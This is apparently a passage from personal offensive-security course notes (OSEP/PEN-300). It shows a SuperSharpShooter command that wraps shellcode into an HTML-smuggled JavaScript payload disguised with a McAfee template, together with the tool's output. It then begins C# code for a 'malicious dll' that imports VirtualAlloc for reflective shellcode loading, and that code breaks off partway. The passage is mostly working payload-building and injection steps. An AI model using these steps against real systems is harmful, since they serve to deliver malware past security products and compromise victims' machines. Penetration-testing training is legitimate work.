 ### Smuggling 

```bash
sudo python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile ~/Documents/OSEP/Pen300/04ClientSideWithWindowsScriptHost/shell.txt --smuggle --template mcafee --output smuggle

             _____ __                    _____ __                __
            / ___// /_  ____ __________ / ___// /_  ____  ____  / /____  _____
            \__ \/ __ \/ __ `/ ___/ __ \\__ \/ __ \/ __ \/ __ \/ __/ _ \/ ___/
           ___/ / / / / /_/ / /  / /_/ /__/ / / / / /_/ / /_/ / /_/  __/ /
     SUPER/____/_/ /_/\__,_/_/  / .___/____/_/ /_/\____/\____/\__/\___/_/
                              /_/

     Dominic Chell, @domchell, MDSec ActiveBreach, v2.0
     SYANiDE, v3.1 Clinical Precision 

[*] Preview:  var entry_class = 'Sh'+'arp'+'Sho'+'ot'+'e'+'r';
[*] Written delivery payload to output/smuggle.js
[*] File [./output/smuggle.js] successfully loaded !  (will be smuggled in .html)
[*] Encrypted input file with key [haibrysxozefqzekgctaqwgcydmijpsr]
[*] File [./output/smuggle.html] successfully created !  
          ^^ Selected delivery method

```


## Reflective Load (Powershell)

- create project Class Library (.Net Framework)
- creating malicious dll

```csharp
using System;

using System.Collections.Generic;

using System.Linq;

using System.Runtime.InteropServices;

using System.Text;

using System.Threading.Tasks;

  

namespace ClassLibrary1

{

    public class Class1

    {

  

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

  

        [DllImport("kernel32.dll")]

```